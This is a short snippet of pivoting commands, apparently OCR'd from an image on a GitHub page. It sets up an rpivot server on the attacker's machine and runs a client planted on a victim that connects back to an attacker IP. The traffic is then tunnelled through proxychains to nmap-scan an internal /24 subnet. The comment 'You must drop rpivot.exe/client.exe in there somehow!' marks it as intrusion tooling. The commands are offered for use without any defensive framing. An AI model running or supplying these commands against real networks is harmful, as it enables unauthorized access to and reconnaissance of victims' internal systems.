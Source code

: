 # Attacker
python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080

# Victim. You must drop rpivot.exe/client.exe in there somehow!
rpivot.exe --server-ip 10.11.0.45 --server-port 9999

# Nmap attack

proxychains nmap -sT -Pn -vv 10.1.1.0/24 -oX rpivotscan.xml 2>&1 | tee rpivotscan.xml.txt

